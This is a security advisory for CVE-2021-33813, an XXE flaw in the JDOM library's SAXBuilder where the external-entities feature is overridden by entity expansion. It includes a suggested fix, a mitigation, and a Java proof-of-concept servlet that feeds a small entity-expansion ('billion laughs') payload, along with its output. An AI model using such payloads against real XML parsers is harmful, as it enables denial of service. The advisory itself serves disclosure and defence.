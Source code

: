 ```yaml
---
layout: vuln
credit: estib
timeline:
    - type: 'report'
      date: '2021-02-16'
    - type: 'cve-assign'
      date: '2021-06-03'
    - type: 'deadline'
      date: '2021-05-16'
    - type: 'cve-request'
      date: '2021-06-02'
    - type: 'release'
      date: '2021-06-08'
product:
     - ' - JDOM library'

vulnerable:
- ' - JDOM-2.0.6 and before'

severity: 'moderate'
alephid: ALEPH-2021003
cve: CVE-2021-33813
date: '2021-06-03'
references:
    - src: 'JDOM XXE branch fix PR'
      url: 'https://github.com/hunterhacker/jdom/pull/188'

title: 'XXE in JDOM library - Java'  

---
```

While working with the JDOM library, We have found a bug in SAXBuilder class that might lead to an XXE vulnerability.
According to OWASP, to avoid XXE vulnerability, we need to configure the parser not to allow external entities by 
using setFeature() method with the following values: 
``` java
parser.setFeature("http://xml.org/sax/features/external-general-entities", false).
```
We have found that it does not matter which value is set in this feature. Whether it is true or false,
external-general-entities will use the value from the Expand Entity.

Our suggested code fix is that setting user-specified features should be done after the set entity expansion. Since that user-specified configuration should have higher priority to avoid XXE.

Our mitigation, until a version fix is out, is to add configuration for ExpandEntity that should protect the parser from XXE:
``` java
builder.setExpandEntities(false);
```
Exploit example for the XXE bomb attack(billion laughs attack):
``` java
void test_SAXBuilder(HttpServletRequest request, HttpServletResponse response) throws IOException {
 
    String xmlParam = "<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY bar \"World \">
	<!ENTITY t1 \"&bar;&bar;\"><!ENTITY t2 \"&t1;&t1;&t1;&t1;\">
	<!ENTITY t3 \"&t2;&t2;&t2;&t2;&t2;\">]><foo>Hello &t3;</foo>";
    
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to false and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: false, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false, content: " + s);
    } catch (JDOMException e) {
    }
  try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
             s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false,  content: " + s);
    } catch (JDOMException e) {
    }
}
```
The output html is:
``` html
<html>
  <body>
    external-general-entities: true, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: false, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: true, ExpandEntities: false, content: Hello
    external-general-entities: false, ExpandEntities: false, content: Hello
  </body>
</html>
```
